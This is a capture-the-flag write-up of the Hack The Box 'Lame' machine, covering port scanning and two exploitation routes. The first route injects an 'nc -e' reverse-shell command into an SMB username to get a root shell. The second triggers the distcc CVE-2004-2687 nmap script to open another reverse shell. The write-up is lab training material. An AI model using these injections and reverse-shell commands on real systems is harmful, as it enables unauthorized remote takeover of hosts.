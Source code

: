 # HTB - Lame
Linux Easy machine.


## Recon
Start with RustScan and get AutoRecon off and running:

```bash
# f1gur8 @ kali2102 in ~/hackthebox/tjnull/lame [18:02:53] 
$ docker run -it --rm --name rustscan rustscan/rustscan:2.0.0 -a 10.129.203.95 -- -A -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.129.203.95:21
Open 10.129.203.95:22
Open 10.129.203.95:139
Open 10.129.203.95:445
Open 10.129.203.95:3632

```

### FTP is open/anonymous login allowed - not much to see here really
```
21/tcp open  ftp     syn-ack vsftpd 2.3.4
|_banner: 220 (vsFTPd 2.3.4)
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_sslv2-drown: 
Service Info: OS: Unix
```

### SMB is there, might get to play with CME for a change
```
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

### and whatever the heck this thing is, nmap/autorecon says there is a vuln here
```bash
3632/tcp open  distccd syn-ack distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
```


## Exploit

### one-stop shop on the root with CrackMapExec:
Samba is running on the box (136/445) which was learned via nmap earlier,a nd we got the Samba version as well from the nmap results for 445.  

Checking SearchSploit for samba issues:
```bash
# f1gur8 @ kali2102 in ~/hackthebox/tjnull/lame [18:52:09] 
$ searchsploit "Samba 3.0.20"     
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                            | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                             | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                             | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                     | linux_x86/dos/36741.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

that command execution script is interesting, but the metasploit part isn't very helpful:
`Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  | unix/remote/16320.rb`

the relevant part of the script is what is being done.  If we connect to samba with a user name like the username shown - we might get some code execution, or a shell.
```ruby

def exploit
...snip...
	username = "/=`nohup " + payload.encoded + "`"      
        
```

```bash
# f1gur8 @ kali2102 in ~/hackthebox/tjnull/lame [18:56:50] C:1
$ crackmapexec smb --shares lame.htb -u './=`nohup nc -e /bin/sh 10.10.14.18 9000`' -p ''
SMB         10.129.203.95   445    LAME             [*] Unix (name:LAME) (domain:hackthebox.gr) (signing:False) (SMB
```

and indeed - a shell is caught that is running as root.  That was a bit of a surprise.
```bash
# f1gur8 @ kali2102 in ~/hackthebox/tjnull/lame [18:57:27] 
$ ip addr show tun0  
4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none 
    inet 10.10.14.18/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1010/64 scope global 
       valid_lft forever preferred_lft forever
    inet6 fe80::2bac:a3b0:add7:a223/64 scope link stable-privacy 
       valid_lft forever preferred_lft forever

# f1gur8 @ kali2102 in ~/hackthebox/tjnull/lame [18:57:35] 
$ sudo nc -lvnp 9000
[sudo] password for f1gur8: 
listening on [any] 9000 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.203.95] 49824
uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
id
uid=0(root) gid=0(root)
pwd 
/
ls /root
Desktop
reset_logs.sh
root.txt
vnc.log
```

## nmap script to explore the distcc thing

```bash
# f1gur8 @ kali2102 in ~/hackthebox/tjnull/lame/autorecon/exploit/tcp3632_distccd [19:28:26] 
$ locate "*.nse" | grep -i distcc

/usr/share/nmap/scripts/distcc-cve2004-2687.nse
```

running that script we get (what we got from AutoRecon earlier)
```bash
$ nmap -Pn --script distcc-cve2004-2687.nse -p3632 lame.htb
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 19:31 CDT
Nmap scan report for lame.htb (10.129.203.95)
Host is up (0.052s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|_      https://distcc.github.io/security.html

Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
```

checking out the script, there is an argument that can be passed.  Insted of just running ID, we could try to get it to give up a shell:

```bash
ocal nmap = require "nmap"
local match = require "match"
local shortport = require "shortport"
local stdnse = require "stdnse"
local vulns = require "vulns"

description = [[
Detects and exploits a remote code execution vulnerability in the distributed
compiler daemon distcc. The vulnerability was disclosed in 2002, but is still
present in modern implementation due to poor configuration of the service.
]]

---
-- @usage
-- nmap -p 3632 <ip> --script distcc-exec --script-args="distcc-exec.cmd='id'"

```

A little further down it shows that this isn't actually the right value (which I tried a few times and couldn't get to work correctly)... instead of script name distcc-exec it should be the actual script name  `disctcc-cve2004-2687`

```bash
# f1gur8 @ kali2102 in ~/hackthebox/tjnull/lame/autorecon/exploit/tcp3632_distccd [19:46:28] 
$ nmap -Pn -p3632 lame.htb --script distcc-cve2004-2687.nse --script-args="distcc-cve2004-2687.cmd='nc -e /bin/bash 10.10.14.18 9000'" 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 19:46 CDT
Nmap scan report for lame.htb (10.129.203.95)
Host is up (0.046s latency).

PORT     STATE SERVICE
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 12.51 seconds
```

and the low-priv shell is caught this way:
```bash
# f1gur8 @ kali2102 in ~/hackthebox/tjnull/lame [19:01:11] 
$ sudo nc -lvnp 9000
[sudo] password for f1gur8: 
listening on [any] 9000 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.203.95] 43013
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
exit
```
